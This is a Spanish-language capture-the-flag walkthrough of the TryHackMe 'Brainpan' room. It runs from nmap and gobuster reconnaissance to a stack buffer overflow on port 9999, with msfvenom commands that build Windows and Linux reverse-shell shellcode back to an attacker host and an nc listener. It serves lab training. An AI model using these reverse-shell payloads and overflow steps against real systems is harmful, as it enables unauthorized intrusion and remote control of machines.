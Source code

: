 https://tryhackme.com/r/room/brainpan
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sT -Pn --top-ports 500 -open -T5 -v -n 10.10.179.217
```
![[Pasted image 20240924192946.png]]
## Reconocimiento de servicios
```
nmap -sVC -p9999,10000 -Pn 10.10.179.217
```
![[Pasted image 20240924193053.png]]
## Fuzzing 
```
gobuster dir -u http://10.10.179.217:10000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![[Pasted image 20240924193617.png]]
Este directorio contiene un binario con el programa que utiliza el puerto 9999

Para ver el programa del puerto 9999:
```
nc 10.10.179.217 9999
```
# Fase de ataque
## Buffer Overflow
 1. Nos descargamos e instalamos en Windows Immunity Debugger https://www.immunityinc.com/products/debugger/ y registramos el binario
2. Conectamos al servicio
```
nc 10.10.179.217 9999
```
Al enviar una cantidad de "A" elevada el programa explota, por lo que nos podemos aprovechar para un buffer overflow.
3. Creamos un patrón para localizar donde explota el programa quedándose en el EIP
![[Pasted image 20240924202320.png]]
4. Buscamos el número del EIP para buscar la cantidad de "A" necesarias para sobrescribir el EIP
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
```
![[Pasted image 20240924202808.png]]
## ESP Shellcode
Ya que la cantidad son 524 y que ESP es la continuación del EIP donde podemos inyectar código malicioso.
1. Creamos el shellcode para windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.21.31.251 LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread 
```
2. Creamos el script
![[Pasted image 20240924205304.png]]
3. Nos ponemos en escucha
```
rlwrap nc -nlvp 443
```
EXTRA: shellcode para linux
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip6> LPORT=443 -f c -b "\x00" EXITFUNC=thread 
```
```
sudo -l
```
[+] ==pwned!==